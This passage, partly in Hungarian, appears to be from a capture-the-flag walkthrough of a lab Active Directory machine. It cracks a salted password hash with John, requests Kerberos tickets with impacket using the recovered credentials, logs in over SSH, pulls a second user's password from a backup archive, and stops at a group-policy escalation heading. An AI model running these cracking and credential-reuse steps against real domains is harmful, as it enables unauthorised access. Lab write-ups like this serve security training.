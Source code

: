**Password cracking (John):**

```
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt fizz.txt
```

- **Result:** Jenni\_Luvs\_*******

---

## Kerberos TGT & User escalation

**Időszinkronizáció (fontos!):**

```
sudo rdate -n frizzdc.frizz.htb
```

**TGT szerzés:**

```
impacket-getTGT frizz.htb/f.frizzle:'Jenni_Luvs_*****' -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=f.frizzle.ccache
```

**SSH login:**

```
ssh f.frizzle@10.10.11.60 -K
```

- **User.txt megszerzése**

---

## További privesc – backup file / második user

**File:** `wapt-backup-sunday.7z` (f.frizzle Desktopján)

- Letöltve meterpreterrel vagy sima http-vel
- Belső jelszó: kinyerve, benne **újabb AD user: M.SchoolBus / !suBc**

**TGT szerzés új userhez:**

```
impacket-getTGT frizz.htb/'M.SchoolBus':'!suBc*****' -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=M.SchoolBus.ccache
```

**SSH login:**

```
ssh M.SchoolBus@10.10.11.60 -K
```

---

## Privesc: GPO abuse, SYSTEM jog szerzése
